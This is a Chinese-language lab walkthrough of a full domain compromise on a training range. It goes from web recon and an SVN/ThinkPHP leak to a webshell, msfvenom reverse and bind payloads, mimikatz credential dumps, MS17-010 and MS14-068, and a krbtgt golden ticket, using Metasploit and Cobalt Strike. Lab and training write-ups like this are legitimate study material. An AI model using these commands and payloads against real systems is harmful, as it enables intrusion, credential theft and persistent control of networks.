


打靶日记（三）完整的内网域渗透
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第三篇。
1.环境介绍
这个靶场是 webhack123 WEB 服务器有两块网卡 dc 是域控 本文为技术培训技术文档，过程可能会让新人有点难以理解。 过程是从 kali 渗透到 web 再渗透到内网 dc 也就是从外网打到域控
1.1环境图
2.信息收集
1. 主机发现，netdiscover
2.1masscan 端口探测
1 | masscan -p 1-65535 192.168.8.83 --rate=1000 |
2.3nmap 获取系统和端口版本信息
1 | nmap -p 49157,47001,3306,49155,135,445,49153,3389,80,49154,49152,49156,139 -A 192.168.8.83 -oA webhack |
从端口探测的信息得到服务器是 WEB 容器是 phpstudy 套件操作系统是 Microsoft Windows Server 2008 R2
3.对网站进行安全检测
3.1.绑定 hosts
1 | 192.168.8.83 www.webhack123.com |
发 www.webhack123.com 是一个 xxx 平台 核心框架是 ThinkPHP_3.1.3
后台暂时还不知道
3.2gobuster 目录文件扫描
1 | gobuster dir -u http://www.webhack123.com -w /usr/share/wordlists/dirb/big.txt |
3.3 .svn 遍历源代码漏洞
1 | http://www.webhack123.com/.svn/entries |
3.4wc.db 文件下载
在svn中是有一个数据库文件的，如果存在的话，我们可以下载打开。
这个sqlite数据库文件 里面存在网站目录文件信息
svn如果没有获取 可以下载当前下的wc.db用 sqlitebrowser wc.db打开
下载 http://www.webhack123.com/.svn/wc.db

查看数据库 基本知道网站的整个架构
3.5thinkphp 日志文件泄露
在ThinkPHP_3.1.3中 日志文件始开启的经过wc.db可以知道文件目录位置
1 | http://www.webhack123.com/App/Runtime/Logs/19_06_29.log |
3.6python 编写日志文件
1 |
|
3.7发现管理密文
thinkphp 低版本在会记录修改密码的日志
账号 admin 密文 74c774ef39b5b977c1fd59dbfc73c3e380a65aa3
通过 somd5 解 web123
3.8绑定 hosts 碰撞管理后台子域名
如果扫描目录后台 还是找不到后台可以试试绑定 hosts 碰撞子域名这种方法
最近有老哥写了一个脚本在 https://github.com/fofapro/Hosts\_scan 脚本与我的需求有点
不合适小修改了一下自动导入 top3K 子域名进行穷举碰撞 IP 修改后的脚本
直接运行脚本
admin.webhack123.com 这个就是它的后台地址
hosts需要绑定，不然打开失败
1 | 192.168.8.83 admin.webhack123.com |
3.9后台验证码逻辑漏洞
可以穷举密码

3.10. 设置上传文件类型拿 webshell
1 | http://www.webhack123.com/Public/Upload/20211103/7d2e82062e4668139f1b27c7d94dab29.php |
4metasploit 进行提权和信息收集
4.1.生成攻击载荷
phpstudy套件是默认是系统权限的直接上传执行exe就是高权限了
1 | msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.8.133 lport=12345 -f exe >s.exe |
4.2监听上线
1 | msf6 > use exploit/multi/handler |
得到了系统权限
1 | meterpreter > getuid |
4.3migrate 迁移进程
migrate 迁移到64位进程里 migrate 592进行到 system 方便我们的操作
4.4.mimikatz 哈希明文获取
哈希明文获取
加载kiwi模块
1 | meterpreter > load kiwi |
看到有hackbox域 用户web 本地管理员
Administrator 密码 !@#Qwe456
5.跨网段域渗透
5.1.metasploit 跨网段的域渗透
这里我将用两个内网渗透神器进行域渗透下的域渗透分别是
metasploit 和 cobalt strike4.0
5.1.1确定域环境
切为adminstrator
1 | Shell |
5.1.2定位域控
1 | run post/windows/gather/enum_domain |
1 | run post/windows/gather/enum_ad_computers |
5.1.3域信息收集
1 | net time /domain 查看域控时间 |
查看域组失败 其他查看组信息均失败
1 | net group /domain |
Arp

5.1.4终端设置乱码
在metasploit终端使用shell返回的信息会有乱码，可以设置编码防止乱码
chcp 65001
5.1.5终端执行命令信息收集命令
dns 10.10.10.149
dns 一般都是与域控同一个 ip
DC |
10.10.10.149 |
|---|---|
WEB |
10.10.10.150 |
5.1.6获取登录过的用户信息
1 | run post/windows/gather/enum_logged_on_users |
5.1.7添加路由渗透 DC 域控
1 | run autoroute -s 10.10.10.0/24 |
5.1.8开启代理
1 | use auxiliary/server/socks_proxy |
5.1.9.设置 porychanins 代理 nmap 扫描
1 | vim /etc/proxychains4.conf |
1 | proxychains4 nmap -sT -Pn 10.10.10.149 |

5.1.10永恒之蓝 ms17_010 进行溢出
1 | meterpreter > background |
1 | Run |
溢出成功
5.1.11ms14-068 的条件
使用这个 exp 需要一个普通域控用户
web 是域用户 但是不知道密码
5.1.12开启远程桌面
1 | run post/windows/manage/enable_rdp |

密码应该是对的 但不是远程组而已
5.1.13ms14-068 提权域控
5.1.13.1. ms14-068.exe 创建票据
这些信息从 metasploit 前期信息来的，可以翻到上面查看
使用菜刀上传到受害机器
1 | cd C:/phpstudy_pro/WWW/www.webhack123.com/Public/Upload/20211103/ |
5.1.13.2载入 kiwi
1 | load kiwi |
5.1.13.3清理票据
1 | kerberos_ticket_purge 清理票据 |
5.1.13.4导入票据
在 metasploit mimikatz 好似没有这个功能。
上传 mimikatz 注入票据
1 | mimikatz # kerberos::ptc TGT_web@hackbox.com.ccache |
Klist 查看当前票据
1 | dir \\dc\c$ 访问dc域控 |
1 | net time \\dc |
1 | at \\dc |
5.1.14. 获取 dc 域控权限
5.1.14.1. 生成正向载荷
1 | msfvenom -p windows/meterpreter/bind_tcp lport=13777 -f exe >`pwd`/bind.exe |
5.1.14.2. copy 复制到域控
1 | c:\phpstudy_pro\WWW\www.webhack123.com>copy bind.exe \\dc\C$\ copy bind.exe \\dc\C$\ |
5.1.14.3. at 执行任务运行 exe
1 | C:\Windows\system32>at \\dc 0:27:00 c:/bind.exe |
1 | set payload windows/meterpreter/bind_tcp |
5.1.15获取 dc 域控哈希明文
进程迁移
1 | run hashdump |
5.1.16. 抓域控全部 hash
1 | run post/windows/gather/smart_hashdump |
5.1.17制作黄金票据
考虑长期权维护，还是做一个黄金票据比较保险。
5.1.18获取 ntml sid rid
1 | wmic useraccount where name="krbtgt" get sid |
5.1.19窃取 域控超级管理权限
系统权限没办法做dcsync 所以切换域管理权限
1 | steal_token 2264 |
1 | [+] Account : krbtgt |
5.1.20生成黄金票据
golden_ticket_create -d <域名> -u <任意用户名> -s
1 | golden_ticket_create -d hackbox.com -u garck -s S-1-5-21-2005268815-658469957-1189185684 -k 6f60ace6accbcb76078ccc0312174e98 -t /tmp/krbtgt.ticket |
5.1.21. 注入黄金票据
切换到 web 服务器 把凭据都清理掉
load kiwi
kerberos_ticket_purge
注入黄金票据
1 | kerberos_ticket_use /tmp/krbtgt.ticket |
5.2cobaltstrike 进行内网域渗透
5.2.1.建立 teamserver
./teamserver 192.168.8133 4477
设置好监听器，密码是garck
在windows打开start.bat
连接上之后，查看监听器。全选之后进行删除。
添加

添加监听
生成shellcode
保存之后，使用菜刀进行上传至目标服务器。
执行之后，设置时间为0秒
查看
获取目标信任主机
cobaltstrike mimikatz web 服务获取明密文
查看明文

dir访问域控DC
在 py 脚本下创建票据
1 | root@kali:~/Desktop/webhack123/pykek# set +H |
1 | KrbCredExport 将 .ccache 文件转化为 kirbi 格式 |
1 | 导入票据访问 dc |
获取 dc 域控权限
现在只有访问 dc 域控的权限，接下来是 dc 域控的控制
设置 smb 连接器
生成后门文件 选择 smb 因为是正向连接 如果使用反向链接 需要做转发 比较麻烦
复制文件到 dc 域控并运行
在 beacon 正向连接上 dc
link dc
获取 dc 明文哈希
命令输入 mimikatz hashdum